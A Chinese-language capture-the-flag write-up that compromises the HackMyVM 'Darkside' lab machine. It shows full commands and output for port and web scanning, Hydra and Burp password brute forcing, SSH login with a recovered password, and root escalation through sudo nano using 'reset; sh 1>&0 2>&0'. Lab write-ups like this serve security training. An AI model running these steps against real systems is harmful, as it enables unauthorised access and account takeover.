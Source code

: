 # hmv_Darkside

# 0.简介

**靶机**：[hackmyvm - Darkside](https://hackmyvm.eu/machines/machine.php?vm=Darkside)
**难度**：绿色
**目标 IP**：192.168.205.134
**本机 IP**：192.168.205.141

# 1.扫描

一号男嘉宾，`nmap`开扫

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -sS --min-rate 10000 -p- -Pn 192.168.205.134
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-14 10:42 CST
Nmap scan report for 192.168.205.134
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:2D:1C:16 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.69 seconds                                                 
```

优先查看**http服务**端口，**ssh端口**如果没有进展再进行爆破

# 2.踩点

![image](https://github.com/user-attachments/assets/8432290e-d5d9-4863-9dfc-a43e9145b860)

是个登录页，尝试`sql注入、万能密码、弱密码`均无果，使用`Nikto`进行WEB漏洞扫描

```bash
┌──(kali㉿kali)-[~/test]
└─$ nikto -h 192.168.205.134                       
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.205.134
+ Target Hostname:    192.168.205.134
+ Target Port:        80
+ Start Time:         2025-01-14 10:43:28 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.56 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /backup/: Directory indexing found.
+ /backup/: This might be interesting.
+ 8102 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2025-01-14 10:43:50 (GMT8) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

有个备份目录，我们去网页查看一下

![image](https://github.com/user-attachments/assets/8432290e-d5d9-4863-9dfc-a43e9145b860)

只有一个`vote.txt`文本文件，给了我们几个用户名，我们拿这几个用户名去尝试爆破ssh服务

```bash
┌──(kali㉿kali)-[~/test]
└─$ curl http://192.168.205.134/backup/vote.txt|awk -F ':' '{print $1}'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   205  100   205    0     0  69751      0 --:--:-- --:--:-- --:--:--  100k
rijaba
xerosec
sml
cromiphi
gatogamer
chema
talleyrand
d3b0o

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
                                                                                                                                     
┌──(kali㉿kali)-[~/test]
└─$ vim user  
                                      
┌──(kali㉿kali)-[~/test]
└─$ cat user
rijaba
xerosec
sml
cromiphi
gatogamer
chema
talleyrand
d3b0o
kevin
                  
┌──(kali㉿kali)-[~/test]
└─$ hydra -L user -P /usr/share/wordlists/q5000.txt ssh://192.168.205.134 -I -u -f -e nsr -t 64 

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-14 11:04:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 45027 login tries (l:9/p:5003), ~704 tries per task
[DATA] attacking ssh://192.168.205.134:22/

```

爆破的同时，我们用burp也爆破登录页

![image](https://github.com/user-attachments/assets/b8ec81f2-f037-4bec-a27e-335aee5329d9)

选这个，设置好参数后启动爆破

![image](https://github.com/user-attachments/assets/f4a491ef-5970-4991-b5e2-83ae8de8d3c7)

按照长度排序，可以发现该组用户密码长度明细不一样，尝试登录

![image](https://github.com/user-attachments/assets/c0b9156f-bbb0-475f-920a-7ed966e0a230)

获得了一串类似于base64的字符串，拿去[cyberchef](https://cyberchef.org/)解密

![image](https://github.com/user-attachments/assets/c0b9156f-bbb0-475f-920a-7ed966e0a230)

（尴尬了，是base58）输出了一串和网址很像的字符串，我们访问一下

![image](https://github.com/user-attachments/assets/1b02d153-2df9-4f83-a249-714cf8196a93)

问我们选哪边，我们查看源码

![image](https://github.com/user-attachments/assets/fe152899-e95a-4487-a6a3-69c1bdc75f10)

代码是实现了当存在名为 **side** 的 **cookie** 并且它的值是 `darkside`，那么脚本将重定向用户到 URL `hwvhysntovtanj.password`，我懒得改**cookie**了，我们直接访问

![image](https://github.com/user-attachments/assets/9bc27d36-69e8-4d83-a178-f695a8e598ce)

获得了一个貌似是**ssh服务**密码，我们尝试一下

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh kevin@192.168.205.134  
The authenticity of host '192.168.205.134 (192.168.205.134)' can't be established.
ED25519 key fingerprint is SHA256:pmPw9d2/o54jN+Dmo29Hq6rIzWOQ//VhyZvK4KN6rmk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.134' (ED25519) to the list of known hosts.
kevin@192.168.205.134's password: 
Linux darkside 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct 15 15:18:15 2023 from 10.0.2.18
kevin@darkside:~$ id
uid=1000(kevin) gid=1000(kevin) groups=1000(kevin)
```

成功连接

# 3.提权

```bash
kevin@darkside:~$ sudo -l
[sudo] password for kevin: 
Sorry, user kevin may not run sudo on darkside.
kevin@darkside:~$ 
kevin@darkside:~$ ls -la
total 32
drwxr-xr-x 3 kevin kevin 4096 Oct 30  2023 .
drwxr-xr-x 4 root  root  4096 Oct 15  2023 ..
lrwxrwxrwx 1 kevin kevin    9 Oct 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 kevin kevin  220 Oct 15  2023 .bash_logout
-rw-r--r-- 1 kevin kevin 3526 Oct 15  2023 .bashrc
-rw-r--r-- 1 kevin kevin  113 Oct 15  2023 .history
drwxr-xr-x 3 kevin kevin 4096 Oct 15  2023 .local
-rw-r--r-- 1 kevin kevin  807 Oct 15  2023 .profile
-rw-r--r-- 1 kevin kevin   19 Oct 15  2023 user.txt
kevin@darkside:~$ cat .history
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba

```

在家目录发现了`.history`文本文件，查看获得了`rijaba`的密码，尝试登录

```bash
kevin@darkside:~$ su rijaba
Password: 
rijaba@darkside:/home/kevin$ id
uid=1001(rijaba) gid=1001(rijaba) groups=1001(rijaba)
```

继续测试提权

```bash
rijaba@darkside:/home/kevin$ sudo -l
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano

```

可以使用**root**运行`nano`，我们进行提权

```bash
rijaba@darkside:/home/kevin$ sudo /usr/bin/nano
```

![image](https://github.com/user-attachments/assets/68590d1b-033a-440d-8aea-5eff83ad1d78)

进入`nano`按**CTRL+R**，**CTRL+X**，输入`reset; sh 1>&0 2>&0`就提权成功了

![image](https://github.com/user-attachments/assets/68590d1b-033a-440d-8aea-5eff83ad1d78)